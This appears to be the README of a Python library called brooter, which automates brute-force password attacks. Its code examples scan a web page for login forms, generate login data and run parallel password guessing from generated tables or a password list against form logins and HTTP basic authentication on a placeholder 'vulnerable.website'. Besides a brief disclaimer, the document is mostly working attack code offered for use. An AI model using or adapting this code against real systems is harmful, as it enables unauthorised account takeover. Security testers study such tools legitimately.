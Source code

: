 # brooter
Easy and extensible brute force algorithms and utilities framework for Python

Please use responsibly. I, do not take responsibility for misuse or damages.
This software comes with no warranty. Don't do evil stuff.

Planned features:
+ Distributed processing

Do a scan for all forms on a webpage
```python
from br00ter import reverser

forms = reverser.scan_forms('http://vulnerable.website')
```
Construct a login request using information gathered from scanning the forms
```python
form = forms[0]
data = form.generate_data('admin', 'password_here')
```
...and POST the data to check the password
```python
import requests

requests.post('http://vulnerable.website', data=data)
```

Putting it together:
Automatically scan a webpage for forms and brute-force using 4 python processes (default) without any reverse-engineering required:
```python
import br00ter, requests
from br00ter import reverser

def test_login(combo): # Post to 'url' automatically generated form data and check for an OK response
    print('testing ' + combo)
    success = requests.post(url, data=form.generate_data(username, combo)).response_code == 200
    print(combo + str(success))
    return (combo, success)

if __name__ == '__main__':
    username = 'admin'
    url = 'http://vulnerable.website'
    form = reverser.scan_forms(url)[0]

    with br00ter.TableGenerator('abc', 3, 5) as x:
        print('Launching...')
        pool = br00ter.BrutePool(x, test_login)
        pool.start()
        pool.join()
```

Concurrent example for basic HTTP authentication:
```python
import br00ter, requests
from br00ter import targets

username = 'admin'

if __name__ == '__main__':
    sess = targets.BasicAuthTarget('http://vulnerable.website', requests.session(), username)
    with br00ter.FileGenerator('passlist.txt') as x:
        print('Launching...')
        pool = br00ter.BrutePool(x, sess.test)
        pool.start()
        pool.join()
```

